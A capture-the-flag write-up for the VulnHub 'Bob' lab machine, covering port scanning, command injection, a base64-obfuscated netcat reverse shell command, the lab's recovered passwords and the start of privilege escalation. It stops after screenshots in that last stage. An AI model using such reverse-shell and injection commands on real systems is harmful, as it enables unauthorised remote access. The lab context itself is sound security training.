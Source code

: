 ```yaml
---
title: Bob
categories: [VulnHub]
tags: [Command Injection, gpg, Recon, PrivEsc]
image:
  path: /Vulnhub-Files/img/Bob/Untitled%203.png
  alt: Bob Machine !
---
```


## **Description ⤵️**


> 💡 Difficulty: Beginner/Intermediate → [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it is not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
    ---<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hidding the ssh port from changing it is good stategy !)
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let is try the reverse shell Now →

```bash
command ->
**echo** "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" **|** base64 -d **|** **bash**
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc		:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```
{: .nolineno}

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

Harpocrates was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)

```bash
And I got this credential →
bob	:	b0bcat_
```
{: .nolineno}

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
---